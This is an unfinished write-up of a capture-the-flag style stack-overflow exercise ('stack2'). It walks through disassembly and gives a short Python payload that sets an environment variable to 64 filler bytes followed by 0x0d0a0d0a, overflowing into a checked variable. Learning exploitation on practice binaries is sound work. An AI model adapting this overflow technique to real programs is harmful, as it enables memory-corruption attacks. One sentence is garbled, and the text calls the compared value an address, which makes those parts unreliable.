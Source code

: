# Stack2 writeup
### __***work in progress***__

----

- looking up the assembly we find

```asm
 sub esp,0x60  //this 6 *16 is the maximum size for the buffer


mov  DWORD PTR [esp],0x80485e0
call   804837c <getenv@plt>

 	//var1 = argument
mov DWORD PTR [esp+0x5c],eax //var 1
```

and the returis the maximum size for the buffern address to return to is found here


```
80484e4:	8b 44 24 58          	mov    eax,DWORD PTR [esp+0x58]
80484e8:	3d 0a 0d 0a 0d       	cmp    eax,0xd0a0d0a
```

**0xd0a0d0a ** is the address we want to over write esp+0x58 with

so to do that we fill the variable esp+0x5c and overflow into 0x58

max size of the buffer is  6 *16 from the function prolog so we can start from that and cut in half till we see what happens


after trial and error, 64 is found to be the buffer size and the injected hex is in little endian so the payload is
```python
import os
payload = 'a'*64 + "\x0a\x0d\x0a\x0d"
os.environ["GREENIE"] = payload
os.system('bash')
```
since there are calls for get enviroment variables we need to set an enviroment variable
